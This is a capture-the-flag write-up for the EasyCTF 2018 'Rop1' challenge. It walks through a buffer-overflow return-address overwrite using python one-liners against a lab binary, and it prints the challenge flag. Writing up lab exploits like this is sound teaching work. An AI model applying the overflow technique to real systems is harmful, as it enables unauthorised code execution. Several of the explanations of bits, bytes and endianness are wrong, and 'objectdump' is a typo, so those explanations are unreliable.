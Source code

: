 # Rop1

By PGODULTIMATE

```asciidoc
Go to /problems/rop1 on the shell server and tell me whats in flag.txt.
```

Well the first step to solving this problem is simply accessing the shell and **cd** to `/problems/rop1`. If you `ls -a` the directory then two files would immediately show up. They are Rop1 and [Rop1.c](https://github.com/goelp14/EasyCTF-Writeups-2018-Final/blob/master/rop1.c). I am not linking to the other file because it isn't really necessary and I cannot find it. Anyway, looking at Rop1.c, I see that there is a:

```c
void get_flag()
{
        system("/bin/cat flag.txt");
}
```

That is just completely separate from the other segments of code so I know I can't get to it through normal means. This function prints out the flag as cat is an opening command and flag.txt is - you know - the flag. So I know that this is the part of the code I need to attack. What I do next is objdump the program.

```asciidoc
$ objectdump -d rop1
```

This gives me a whole bunch of stuff, but all I need to look for is the get\_flag\(\) function. It would literally say get\_flag next to the address of the function. So, my address is:

```py
0x0000000000400646
```

What does this mean? Well it really is just telling me the location of the function in the program. With this, I can send a **Buffer Overflow** attack to it and it should print out the flag \(since this is a ROP problem\). Now I just need to figure out what the buffer size is! I first just tried _64 bits_ because thats the usual size for a buffer. Before I go any further I should explain a little but about a **Buffer Overflow** attack. Essentially, this exploits a function that takes an input by putting more characters than can be handled. However, the amount usually has to be precise \(I believe 1 byte over but that may vary\). The common format of the attack would be:

```py
$ python -c "print('A' * <buffer overflow size> + '\xmemory\xaddress\xto\xexploit')" | ./<file>
```

It would directly pump in the letter **A ** the number of times I want it to to reach the **buffer overflow size **as an answer to whatever input is wanted at that memory address. The address we found must be converted to **Little Endian** to be used as a memory address in this attack. **Little Endian **is really just the memory address found split in to segments of two bits and then reversed. In this case, The  **Little Endian  **of `0x0000000000400646` is simply `\x46\x06\x40\x00\x00\x00\x00\x00`. In this first scenario it would look like this:

```py
$ python -c "print('A' * 64 + '\x46\x06\x40\x00\x00\x00\x00\x00')" | ./rop1
```

This didn't print out my flag but I did get a `Segmentation fault (core dumped)` meaning that I am on the right track. So, I just added _one byte_ to it \(_8 bits_\).

```py
$ python -c "print('A' * 72 + '\x46\x06\x40\x00\x00\x00\x00\x00')" | ./rop1
```

This prints out my flag:

```asciidoc
easyctf{r0ps_and_h0ps}
```



